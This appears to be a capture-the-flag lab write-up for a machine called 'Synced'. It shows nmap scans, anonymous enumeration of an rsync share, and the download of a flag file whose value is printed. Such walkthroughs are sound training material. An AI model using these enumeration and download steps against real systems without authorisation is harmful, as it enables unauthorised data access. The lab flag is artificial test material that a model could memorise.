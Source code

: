 # Synced

TARGET MACHINE IP ADDRESS
10.129.228.37

----
## Nmap

### Initial
```
nmap -Pn 10.129.228.37
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 12:22 EST
Nmap scan report for 10.129.228.37
Host is up (0.048s latency).
Not shown: 999 closed tcp ports (reset)
PORT    STATE SERVICE
873/tcp open  rsync

Nmap done: 1 IP address (1 host up) scanned in 0.88 second
```

### Detailed
```
nmap -Pn -sS -sV -sC -O -T4 -p 873 10.129.228.37
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 12:22 EST
Nmap scan report for 10.129.228.37
Host is up (0.039s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 
Device type: general purpose|WAP|webcam|broadband router
Running (JUST GUESSING): Linux 2.6.X|2.4.X (92%), Asus embedded (92%), AXIS embedded (92%)%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/h:asus:rt-n10 cpe:/h:axis:211_network_camera cpl:2.6.20 cpe:/h:linksys:wrv54g cpe:/h:asus:rt-ac66u cpe:/o:linux:linux_kernel:2.4 cpe:/o:l18
Aggressive OS guesses: Asus RT-N10 router or AXIS 211A Network Camera (Linux 2.6) (92%), LS 211A Network Camera (Linux 2.6.20) (92%), Linux 2.6.16 (91%), AXIS 210A or 211 Network C90%), Linksys WRV54G WAP (89%), Asus RT-AC66U router (Linux 2.6) (89%), Asus RT-N16 WAP (LRT-N66U WAP (Linux 2.6) (89%), Tomato 1.28 (Linux 2.6.22) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.or
Nmap done: 1 IP address (1 host up) scanned in 16.69 seconds
```

----
## rsync
- [Resource](https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-1-rsync/)

### Enumerate rsync Shares

```
rsync 10.129.228.37::
public          Anonymous Share
# |--> share    |--> description
```
- If rsync returns with the available directories and files without asking for authentication, it means that the service allows anonymous unauthenticated access.

### Enumerate Share Contents

```
rsync 10.129.228.37::public
drwxr-xr-x          4,096 2022/10/24 18:02:23 .
-rw-r--r--             33 2022/10/24 17:32:03 flag.txt

# or: 

rsync -av --list-only rsync://10.129.228.37/public
receiving incremental file list
drwxr-xr-x          4,096 2022/10/24 18:02:23 .
-rw-r--r--             33 2022/10/24 17:32:03 flag.txt

sent 24 bytes  received 74 bytes  6.32 bytes/sec
total size is 33  speedup is 0.34
```

## Pwn: Download Files via rsync

```
rsync 10.129.228.37::public/flag.txt .

cat flag.txt 
72eaf5344ebb84908ae543a719830519
```
![Pasted image 20240221120005](https://github.com/GregKedrovsky/Hacking/assets/26492233/f2b995b0-1c8e-49e5-82e2-0568420d8004)
